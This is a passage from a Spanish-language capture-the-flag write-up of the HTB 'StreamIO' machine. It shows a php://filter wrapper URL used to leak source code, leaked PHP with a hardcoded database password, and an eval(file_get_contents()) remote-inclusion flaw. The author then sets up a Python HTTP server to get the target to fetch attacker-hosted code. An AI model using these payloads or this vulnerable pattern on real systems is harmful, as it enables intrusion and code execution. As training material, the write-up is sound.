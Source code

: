 Para poder leer mas de los `wrappers` podemos leer el siguiente post:
- [https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php](https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php)

Luego de obtener el contenido tenemos lo siguiente:

- index.php

```php
�yr<?php
define('included',true);
session_start();
if(!isset($_SESSION['admin']))
{
        header('HTTP/1.1 403 Forbidden');
        die("<h1>FORBIDDEN</h1>");
}
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);

?>

```

- master.php

```php
.
.
.
<?php
} # while end
?>
<br><hr><br>
<form method="POST">
<input ame="include" hidden>

</form>
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" )
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>
```

Analizando el archivo de `master.php` podemos ver que podemos incluir un archivo `.php` ajeno al servidor, por lo que iniciaremos un servidor en Python y crearemos un archivo `.php` y así verificar si se realiza una petición a nuestro servidor.

```python
❯ python3 -m http.server 80
```

